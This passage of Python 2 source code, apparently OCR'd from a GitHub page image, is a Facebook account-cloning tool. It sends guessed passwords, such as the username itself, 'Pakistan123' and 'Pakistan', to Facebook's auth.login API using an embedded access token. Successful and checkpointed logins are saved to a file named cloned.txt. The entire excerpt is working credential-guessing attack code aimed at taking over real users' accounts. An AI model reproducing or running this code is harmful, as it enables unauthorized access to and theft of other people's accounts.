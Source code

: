                 oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m(Ok✔)  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan123"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m(ok✔)  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="Pakistan"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;93m(ok✔)  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()